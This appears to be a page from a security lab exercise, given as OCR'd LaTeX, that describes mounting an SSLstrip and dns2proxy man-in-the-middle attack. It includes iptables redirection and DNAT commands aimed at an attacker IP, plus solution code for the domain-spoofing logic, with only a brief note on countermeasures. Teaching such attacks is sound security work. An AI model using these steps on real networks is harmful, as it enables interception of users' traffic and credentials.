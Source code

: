 \documentclass[final]{article}
\begin{document}
\noindent To correctly mount this attack, you have to follow this procedure:
\begin{itemize}
  \item Mount a MitM attack
  \item Implement the missing code in \texttt{sslstrip/URLMonitor.py} and execute it \texttt{./sslstrip.py -l <sslstrip\_port>}
  \item Create a specific rule to redirect the traffic from the port 80 to the port that sslstrip is running, using iptables\\
  \texttt{sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <sslstrip\_port>}
  \item Implement the missing code in \texttt{dns2proxy.py} and execute it \texttt{./dns2proxy.py}
  \item Create a specific rule to redirect all the traffic in the attacker virtual machine changing the destination ip.\\
  \texttt{sudo iptables -t nat -A PREROUTING -p udp --dport 53 -i enp0s8 -j DNAT --to <attacker\_ip>}
  \item Analyze the behaviour using Wireshark, being sure that all this trick has being working properly
\end{itemize}


\subsubsection{Countermeasures}
Unfortunately, there is no default technique to prevent this type of attack. The user must always check the correctness of the URL in the address bar.

\subsubsection{Solution of the exercise
}
\textbf{Missing code in \texttt{sslstrip/URLMonitor.py}}
\lstset{language=Python}
\begin{lstlisting}
  if host[:4] == "www.":
      fake_domain = "w" + host
  else:
      fake_domain = "web" + host

\end{lstlisting}

\noindent\textbf{Missing code in \texttt{dns2proxy.py}}
\begin{lstlisting}
  if host[:5] == 'wwww.':
      real_domain = host[1:]
  elif host[:3] == 'web':
      real_domain = host[3:]

\end{lstlisting}
\end{document}
